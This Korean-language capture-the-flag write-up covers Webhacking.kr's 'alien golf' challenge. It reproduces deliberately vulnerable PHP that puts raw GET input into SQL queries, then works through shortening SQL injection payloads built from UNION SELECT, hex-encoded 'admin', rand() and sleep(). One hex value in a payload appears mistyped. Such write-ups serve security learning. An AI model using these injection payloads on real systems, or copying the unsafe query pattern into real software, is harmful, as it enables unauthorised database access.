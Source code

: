 ```yaml
---
title: ["[Webhacking.kr] alien golf (sqli - ???)"]
date: 2024-12-10 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, golf]
---
```


```php
<?php
  include "../../config.php";
  login_chk();
  $db = dbconnect();
  print_best_golfer(72);
  $db = dbconnect("alien");
  if(preg_match('/admin|if/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin"){
      // !!THIS IS PAYLOAD GOLF CHALLENGE!!
      // My solution of alien golf is 140byte.
      // If your solution is shorter than mine, you will get 5 point per 1 byte.
      $len = 140 - strlen($_GET['no']);
      if($len > 0){
        solve(72,$len * 5);
      }
      else{
        echo "<h2>nice try :)</h2>";
      }
    }
  }
  highlight_file(__FILE__);
?>
```

Lord of SQLi의 Alien과 같은 문제이다.  
Golf 형식의 문제로 페이로드가 짧을수록 높은 점수를 받게 된다.  

최고득점이 510 point니까 누군가는 이걸 38byte만에 해결했다는 뜻이다.  

```sql
?no=0 union select substr(0x61646d696e,now()%2,5)%23' union select substr(0x61646d696e,now()%2+1,5)%23 union select sleep(1)%23
```
Alien을 풀 때 사용했던 페이로드를 최대한 줄여보자.  

Alien은 문제를 확실히 푸는게 중요했어서 time값과 sleep으로 50%의 확률로 문제를 풀 수 있게 했지만, 이번 문제는 페이로드를 짧게하는 것이 가장 중요한 목표이므로 rand를 사용한 접근을 해보았다.  
또한 substr을 mid로 바꿨다.  

``sql
?no=0 union select mid(0x61646d696e,rand(),5)%23'union select mid(0x61646d696e,rand(),5)%23
?no=0 union select mid(@a:=0x61646d606e,rand(),5)%23'union select mid(@a,rand(),5)%23
?no=0 union select mid(@a:="admi" "n",rand(),5)%23'union select mid(@a,rand(),5)%23
```

1/16 확률로 동작하는 페이로드로 75byte까지는 줄였다. 325point 획득.  

좀 더 줄일 수 있을 것 같은데, 고민을 더 해보자.  